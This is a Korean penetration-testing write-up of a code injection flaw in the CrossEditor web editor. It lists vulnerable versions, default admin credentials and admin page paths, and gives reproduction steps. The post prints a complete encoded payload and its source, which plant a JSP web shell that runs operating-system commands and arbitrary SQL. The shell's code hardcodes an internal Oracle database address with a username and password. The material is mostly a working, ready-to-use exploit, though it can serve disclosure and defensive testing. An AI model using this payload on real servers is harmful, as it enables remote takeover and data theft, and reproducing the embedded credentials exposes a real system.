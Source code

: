 ```yaml
---
layout: post
title:  "크로스 에디터 (code injection)"
tags: Injection CVE
---
```


# 크로스 에디터 (code injection)

### 취약점 개요 및 영향 버전

고객사 모의침투 프로젝트 진행 중 사이트에서 사용중인 상용 솔루션 크로스에디터가 취약 버전으로 확인 되었고 해당하는 사이트에서 파일 다운로드 취약점을 찾아 취약 소스코드를 분석하게 되었습니다. `PoC가 공개되지 않아서 다른 모의해킹 및 취약점 점검 프로젝트에서 발견되지 못하고 잠재적으로 노후된 솔루션 버전을 사용`하고 있을 가능성이 높다고 생각했고 발견 이후 프로젝트 진행 시 기 취약점으로 쉽게 웹쉘을 업로드할 수 있는 경우가 많았습니다.

![/assets/images/%E1%84%8F%E1%85%B3%E1%84%85%E1%85%A9%E1%84%89%E1%85%B3%20%E1%84%8B%E1%85%A6%E1%84%83%E1%85%B5%E1%84%90%E1%85%A5%20(code%20injection)%20b619f8cee01f405e9d5fd967b305365a/1-1__.png](/assets/images/%E1%84%8F%E1%85%B3%E1%84%85%E1%85%A9%E1%84%89%E1%85%B3%20%E1%84%8B%E1%85%A6%E1%84%83%E1%85%B5%E1%84%90%E1%85%A5%20(code%20injection)%20b619f8cee01f405e9d5fd967b305365a/1-1__.png)

### 취약 소스코드

- 크로스 에디터 특성 상 사용중인 웹 시스템에 그대로 소스코드를 integration해야 하므로 별도로 DB를 구축할 수 없어 관리자 **계정 정보를 소스코드로 하드코딩해서 보관**하게 됩니다.
- 패스워드 변경 시 패스워드는 암호화가 되어서 보관되지만 id 파라미터의 경우 전달받아 그대로 평문으로 저장됩니다.
- 위의 특성을 통해 패스워드 변경을 처리하는 페이지에 운영체제 명령어를 실행하는 소스코드 인젝션 시 비밀번호 변경 처리 페이지가 웹쉘로 탈바꿈되어 침투가 가능합니다.

![/assets/images/%E1%84%8F%E1%85%B3%E1%84%85%E1%85%A9%E1%84%89%E1%85%B3%20%E1%84%8B%E1%85%A6%E1%84%83%E1%85%B5%E1%84%90%E1%85%A5%20(code%20injection)%20b619f8cee01f405e9d5fd967b305365a/1-2_1_.png](/assets/images/%E1%84%8F%E1%85%B3%E1%84%85%E1%85%A9%E1%84%89%E1%85%B3%20%E1%84%8B%E1%85%A6%E1%84%83%E1%85%B5%E1%84%90%E1%85%A5%20(code%20injection)%20b619f8cee01f405e9d5fd967b305365a/1-2_1_.png)

### 취약점 전제조건

1. 취약한 버전을 사용해야 합니다.
- 3.5.1.38 이하 버전
- 4.3.2.29 이하 버전
1. 관리자 계정이 취약해야 합니다.
- 디폴트 계정 ID : admin / PW : 1234
- 기본적으로 임계값은 설정되어 있지 않기 때문에 알려진 패스워드로 사전 대입 공격도 고려할 수 있습니다.

### 취약점 확인 방법

글쓰기 등으로 에디터 플러그인에 접근이 가능하다면 `Ctrl+Shift+A` 를 이용해서 버전 확인이 가능합니다.

![1-1 크로스 에디터 버전 확인.png](/assets/images/%E1%84%8F%E1%85%B3%E1%84%85%E1%85%A9%E1%84%89%E1%85%B3%20%E1%84%8B%E1%85%A6%E1%84%83%E1%85%B5%E1%84%90%E1%85%A5%20(code%20injection)%20b619f8cee01f405e9d5fd967b305365a/1-1_%ED%81%AC%EB%A1%9C%EC%8A%A4_%EC%97%90%EB%94%94%ED%84%B0_%EB%B2%84%EC%A0%84_%ED%99%95%EC%9D%B8.png)

일반적으로 사용되는 경로나 plugin javascript 등을 통해서 크로스 에디터 관리자 페이지 경로로 접근할 수 있습니다.

<aside>
💡 취약점 발견 당시 확인 되었던 관리자 페이지 경로
/namoEditor/plugin/crossEditor/manage/index.html
/namo2/manage/index.html

</aside>

![Untitled](/assets/images/%E1%84%8F%E1%85%B3%E1%84%85%E1%85%A9%E1%84%89%E1%85%B3%20%E1%84%8B%E1%85%A6%E1%84%83%E1%85%B5%E1%84%90%E1%85%A5%20(code%20injection)%20b619f8cee01f405e9d5fd967b305365a/Untitled.png)

간혹 관리자 페이지를 삭제해서 메인 페이지에 접근하지 못하도록 조치 한 경우도 존재합니다.

![1-3 관리자 페이지 막힘.png](/assets/images/%E1%84%8F%E1%85%B3%E1%84%85%E1%85%A9%E1%84%89%E1%85%B3%20%E1%84%8B%E1%85%A6%E1%84%83%E1%85%B5%E1%84%90%E1%85%A5%20(code%20injection)%20b619f8cee01f405e9d5fd967b305365a/1-3_%EA%B4%80%EB%A6%AC%EC%9E%90_%ED%8E%98%EC%9D%B4%EC%A7%80_%EB%A7%89%ED%9E%98.png)

로그인을 처리하는 페이지로 직접 접근해서 세션을 획득하면 됩니다.

<aside>
💡 /namo2/manage/jsp/login_proc.jsp

</aside>

![1-4 URL로 직접 접근.png](/assets/images/%E1%84%8F%E1%85%B3%E1%84%85%E1%85%A9%E1%84%89%E1%85%B3%20%E1%84%8B%E1%85%A6%E1%84%83%E1%85%B5%E1%84%90%E1%85%A5%20(code%20injection)%20b619f8cee01f405e9d5fd967b305365a/1-4_URL%EB%A1%9C_%EC%A7%81%EC%A0%91_%EC%A0%91%EA%B7%BC.png)

획득한 세션으로 취약 모듈인 패스워드 변경 페이지로 직접 접근합니다.

<aside>
💡 /namo2/manage/jsp/account_setting.jsp

</aside>

![1-5 패스워드 변경 페이지 직접 접근.png](/assets/images/%E1%84%8F%E1%85%B3%E1%84%85%E1%85%A9%E1%84%89%E1%85%B3%20%E1%84%8B%E1%85%A6%E1%84%83%E1%85%B5%E1%84%90%E1%85%A5%20(code%20injection)%20b619f8cee01f405e9d5fd967b305365a/1-5_%ED%8C%A8%EC%8A%A4%EC%9B%8C%EB%93%9C_%EB%B3%80%EA%B2%BD_%ED%8E%98%EC%9D%B4%EC%A7%80_%EC%A7%81%EC%A0%91_%EC%A0%91%EA%B7%BC.png)

### 취약점 재현

Step 1) 비밀번호 변경 시 u_id 파라미터에  코드 인젝션을 진행하면 됩니다. 코드 인젝션으로 소스코드가 변경되기 때문에 주의사항이 필요합니다.

- 코드 인젝션 시 컴파일 에러가 발생하지 않도록 올바른 코드를 입력해야합니다.
(테스트 환경을 구축해서 테스트해보고 공격 페이로드를 입력하는게 안전합니다.)
- ID/PW 변수가 손상되면 관리자 로그인이 불가능해질 수 있습니다.
    
    ![1-7.png](/assets/images/%E1%84%8F%E1%85%B3%E1%84%85%E1%85%A9%E1%84%89%E1%85%B3%20%E1%84%8B%E1%85%A6%E1%84%83%E1%85%B5%E1%84%90%E1%85%A5%20(code%20injection)%20b619f8cee01f405e9d5fd967b305365a/1-7.png)
    

Step 2) manageInfo.jsp로 접근해서 운영체제 명령어를 실행합니다.

![Untitled](/assets/images/%E1%84%8F%E1%85%B3%E1%84%85%E1%85%A9%E1%84%89%E1%85%B3%20%E1%84%8B%E1%85%A6%E1%84%83%E1%85%B5%E1%84%90%E1%85%A5%20(code%20injection)%20b619f8cee01f405e9d5fd967b305365a/Untitled%201.png)

Step 3) manageInfo.jsp의 공격 전후입니다.
![1-6 변경 전후.png](/assets/images/%E1%84%8F%E1%85%B3%E1%84%85%E1%85%A9%E1%84%89%E1%85%B3%20%E1%84%8B%E1%85%A6%E1%84%83%E1%85%B5%E1%84%90%E1%85%A5%20(code%20injection)%20b619f8cee01f405e9d5fd967b305365a/1-6_%EB%B3%80%EA%B2%BD_%EC%A0%84%ED%9B%84.png)

### 공격 페이로드
```jsx

admin";%0a%25>%0a<%25@+page+language="java"+contentType="text/html;+charset=UTF-8"+pageEncoding="UTF-8"%25>%0a<%25@+page+import="java.util.*,java.io.*"%25>%0a<meta+charset="UTF-8">%0a<form+method=GET+Action='manageInfo.jsp'>%0a<input+name='cmd'+type=text+style="width:500px;height:50px;">%0a<input+type=submit+value='Run'>%0a</Form>%0a<textarea+style="width:700px;height:500px">%0a<%25%0a%09String+cmd+=+request.getParameter("cmd");%0a%09String+output+=+"";%0a%09if(cmd+!=+null)+{ %0a%09%09String+s+=null;%0a%09%09try+{ %0a%09%09%09Process+p+=+Runtime.getRuntime().exec("cmd.exe+/C+"%2bcmd);%0a%09%09%09BufferedReader+sI+=+new+BufferedReader(new+InputStreamReader(p.getInputStream()));%0a%09%09%09while((s+=+sI.readLine())+!=+null)+{ %0a%09%09%09%09out.println(s);%0a%09%09%09}%0a%09%09}%0a%09%09catch(IOException+e)+{ %0a%09%09%09e.printStackTrace();%0a%09%09}%0a%09}%0a%25>%0a</textarea>%0a<%25%0a%09String+a+="1

```

공격 코드 원본

```java
admin";
%>
<%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%>
<%@ page import="java.lang.*"%>
<%@ page import="java.sql.*"%>
<%@ page import="java.util.*"%>
<%@ page import="java.io.*"%>
<!DOCTYPE html PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN" "http://www.w3.org/TR/html4/loose.dtd">
<meta charset="UTF-8">
<h1> Coommand Execute </h1>
<form method=POST Action='manageInfo.jsp'>
 <input name='cmd' type=text style="width:500px;height:50px;">
 <input type=submit value='Run'>
</Form>
<br>
<textarea style="width:700px;height:500px">
<%
 String cmd = request.getParameter("cmd");
 String output = "";
 if(cmd != null) {
  String s =null;
  try {
    Process p = Runtime.getRuntime().exec(cmd);
    BufferedReader sI = new BufferedReader(new InputStreamReader(p.getInputStream()));
    while((s = sI.readLine()) != null) {
      out.println(s);
    }
  }
  catch(IOException e) {
    e.printStackTrace();
  }
 }
 %>
</textarea>
<br><br><br>
<h1> SQL Execute </h1>
<form method="GET" action="">
 <input name="query" type="text" style="width:500px; height:50px;">
 <input type="submit" value="RUN">
</form>
<br><br>
<%
 String sql = request.getParameter("query");
 if(sql != null) {
   try {
     String url = "jdbc:oracle:thin:@172.25.251.124:1721:HABISPDB";
     String user = "MATIE";
     String pass = "MATIE_20";

     Class.forName("oracle.jdbc.driver.OracleDriver");
     Connection conn = DriverManager.getConnection(url, user, pass);
     Statement stmt = conn.createStatement();
     ResultSet rs= stmt.executeQuery(sql);
     ResultSetMetaData rsmd = rs.getMetaData();
     int count = rsmd.getColumnCount();
     out.println("<br><br>");
     out.println("<table border=\"1\" cellspacing=\"0\" cellpadding=\"0\" style=\"width:500px; border: 1px solid #444444; text-align:center;\">");
     out.println("<tr>");
     for(int i=1; i<=count; i++){
       out.println("<th>"+rsmd.getColumnLabel(i)+"</th>");
     }
     out.println("</tr>");
     while(rs.next()){
       out.println("<tr>");

       for(int i=1; i<=count; i++)
       {

         switch(rsmd.getColumnType(i))
         {
           case Types.NUMERIC :
           case Types.INTEGER :
             out.println("<td>"+rs.getInt(i)+"</td>"); break;
           case Types.FLOAT :
             out.println("<td>"+rs.getFloat(i)+"</td>"); break;
           case Types.DOUBLE :
             out.println("<td>"+rs.getDouble(i)+"</td>"); break;
           case Types.DATE :
             out.println("<td>"+rs.getDate(i)+"</td>"); break;
           case Types.CHAR :
           default :
             out.println("<td>"+rs.getString(i)+"</td>");
         }
       }
       out.println("</tr>");

     }
     out.println("</table>");
     conn.close();
   }
   catch(Exception e)
   {
      out.println("<br><br>");
      out.println("not query or sql error");
   }
 }

%>
<% String a="123
```

### 실습환경

```bash
docker pull rbdhks9826/crs
```